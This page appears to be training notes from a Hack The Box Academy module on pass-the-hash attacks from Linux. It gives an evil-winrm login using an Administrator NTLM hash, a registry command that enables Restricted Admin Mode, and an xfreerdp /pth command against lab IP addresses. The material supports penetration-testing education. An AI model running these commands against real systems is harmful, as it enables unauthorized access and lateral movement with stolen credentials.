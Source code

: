 {% hint style="warning" %}
[CrackMapExec documentation Wiki](https://web.archive.org/web/20220902185948/https://wiki.porchetta.industries/) ([NetExec documentation wiki](https://www.netexec.wiki/))&#x20;
{% endhint %}

***

### <mark style="color:blue;">Pass the Hash with evil-winrm (Linux)</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF345
```
{% endcode %}

Note: When using a domain account, we need to include the domain name, for example: administrator@inlanefreight.htb

***

### <mark style="color:blue;">Pass the Hash with RDP (Linux)</mark>

We can perform an RDP PtH attack to gain GUI access to the target system using tools like `xfreerdp`.

There are a few caveats to this attack:

* `Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, you will be presented with the following error:

![](https://academy.hackthebox.com/storage/modules/147/rdp_session-4.png)

This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG\_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value of 0. It can be done using the following command:

**Enable Restricted Admin Mode to Allow PtH**

{% code overflow="wrap" fullWidth="true" %}
```cmd-session
c:\tools> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
{% endcode %}

![](https://academy.hackthebox.com/storage/modules/147/rdp_session-5.png)

Once the registry key is added, we can use `xfreerdp` with the option `/pth` to gain RDP access:

**Pass the Hash Using RDP**

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```
{% endcode %}
